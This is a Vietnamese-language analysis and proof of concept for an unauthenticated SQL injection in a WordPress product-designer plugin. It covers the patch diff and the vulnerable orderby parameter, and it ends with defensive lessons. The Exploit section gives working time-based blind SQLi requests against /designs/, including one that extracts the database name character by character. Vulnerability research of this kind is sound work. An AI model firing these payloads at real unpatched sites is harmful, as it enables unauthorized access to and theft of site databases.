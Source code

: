 # CVE-2025-48281 Analysis & POC


---

Lỗ hổng tồn tại trong plugin **MyStyle Custom Product Designer** của WordPress trước phiên bản **3.21.2**. Lỗ hổng này cho phép kẻ tấn công tương tác trực tiếp với cơ sở dữ liệu, bao gồm khả năng trích xuất hoặc thao túng dữ liệu.

* **CVE ID**: [CVE-2025-48281](https://www.cve.org/CVERecord?id=CVE-2025-48281)
* **Sản phẩm**: [WordPress MyStyle Custom Product Designer Plugin](https://wordpress.org/plugins/mystyle-custom-product-designer)
* **Loại lỗ hổng**: SQL Injection
* **Phiên bản bị ảnh hưởng**: <= 3.21.1
* **Mức độ nghiêm trọng (CVSS)**: Cao (9.3)
* **Yêu cầu đặc quyền**: Không cần xác thực

---

## Requirements

* [**WordPress cục bộ & Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **MyStyle Custom Product Designer**: v3.21.1 (có lỗ hổng) và v3.21.2 (đã vá)
* **Công cụ diff**: **meld** hoặc bất kỳ công cụ so sánh phiên bản nào
* **WooCommerce plugin**: phải được kích hoạt trước khi cài đặt MyStyle vì plugin này sử dụng một số hàm từ WooCommerce

---

## Analysis

Nguyên nhân chính là việc ứng dụng chèn trực tiếp dữ liệu từ tham số **GET** vào câu truy vấn SQL mà không có biện pháp xác thực hợp lệ.

### Patch Diff

Dưới đây là sự khác biệt giữa hai phiên bản (3.21.1 và 3.21.2) trong file **includes/entities/class-mystyle-designmanager.php**.

Ảnh minh họa:
![Bản vá khác biệt](patch_diff.png "So sánh bản vá")

Bản vá mới đã thêm danh sách **whitelist** `$allowed_orderby` để chỉ cho phép sắp xếp theo các cột hợp lệ. Nếu giá trị `orderby` không nằm trong danh sách, nó sẽ tự động bị thay thế bằng `'ms_design_id'`, ngăn chặn chèn mã độc SQL.

---

## How it works

Lỗ hổng nằm trong hàm `get_designs` thuộc class `MyStyle_DesignManager` (file **includes/entities/class-mystyle-designmanager.php**).
Hàm này được gọi bởi các hàm như `get_items`, `init_index_request`, và một số hàm kiểm thử.

Ảnh minh họa:
![Tìm kiếm hàm get\_designs](search_1.png "Kết quả tìm kiếm get_designs")

Vì đây là lỗ hổng **unauthenticated**, cần xác định hàm nào có thể được gọi mà không yêu cầu đăng nhập.
Kết quả cho thấy chỉ có `init_index_request` có thể bị khai thác trực tiếp qua URL `/designs/`.

Ảnh minh họa:
![Luồng xử lý](chart.png "Luồng tấn công logic")

---

## Exploit

### Kiểm tra SQLi

Gửi request chứa payload SQLi để kiểm tra:

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Câu truy vấn kết quả:

```sql
SELECT * FROM wp_mystyle_designs WHERE ms_access = 0 ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25 OFFSET 0
```

Nếu phản hồi chậm 5 giây → payload hoạt động.

Ảnh minh họa:
![Kết quả phản hồi thời gian](time_resp.png "Kiểm tra độ trễ thời gian")

> Không thêm dấu comment (`--`) sau `SLEEP()` vì sẽ khiến SQL parser lỗi do xuống dòng giữa `ASC` và `OFFSET`.

Ảnh minh họa lỗi debug:
![Debug lỗi cú pháp](debug.png "Debug lỗi")

---

### Lấy ký tự đầu tiên của tên cơ sở dữ liệu

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Nếu phản hồi chậm → ký tự đầu tiên của tên database là **w**.
Kỹ thuật này có thể được mở rộng để trích xuất toàn bộ tên cơ sở dữ liệu hoặc bảng dữ liệu.

---

## Conclusion

Lỗ hổng **CVE-2025-48281** trong plugin **MyStyle Custom Product Designer** (<= 3.21.1) xuất phát từ việc đưa trực tiếp dữ liệu người dùng vào truy vấn SQL mà không xác thực đúng cách.

Bản vá **3.21.2** đã khắc phục bằng cách áp dụng danh sách cột cho phép (`whitelist`) và kiểm tra giá trị đầu vào.

**Bài học rút ra:**

* Luôn xác thực dữ liệu đầu vào.
* Khi làm việc với cơ sở dữ liệu trong WordPress, **bắt buộc dùng `$wpdb->prepare()`**.
* Thường xuyên cập nhật plugin để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)

---

